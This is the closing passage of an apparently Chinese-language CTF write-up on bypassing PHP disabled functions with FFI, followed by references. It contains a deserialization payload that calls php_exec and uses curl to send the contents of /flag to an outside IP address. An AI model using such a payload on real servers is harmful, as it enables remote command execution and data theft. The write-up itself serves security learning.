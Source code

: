生成 Payload 提交给 index.php：

```php
print_r(unserialize('C:1:"A":97:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:34:"int php_exec(int type, char *cmd);";}}')->ret->php_exec(2,"curl http://154.223.145.173:2333/`cat /flag`"));
```



### 参考文献

[https://www.tr0y.wang/2018/04/18/PHPDisalbedfunc/index.html](https://www.tr0y.wang/2018/04/18/PHPDisalbedfunc/index.html)

[https://www.php.net/manual/en/ffi.examples-callback.php](https://www.php.net/manual/en/ffi.examples-callback.php) 

[https://wiki.php.net/rfc/preload ](https://wiki.php.net/rfc/preload ) 

[https://zhuanlan.zhihu.com/p/60544350 ](https://zhuanlan.zhihu.com/p/60544350 )

[https://blog.csdn.net/wuxing26jiayou/article/details/51024120](https://blog.csdn.net/wuxing26jiayou/article/details/51024120)

[http://www.ktorides.com/2018/12/php-7-4-preloading/](http://www.ktorides.com/2018/12/php-7-4-preloading/)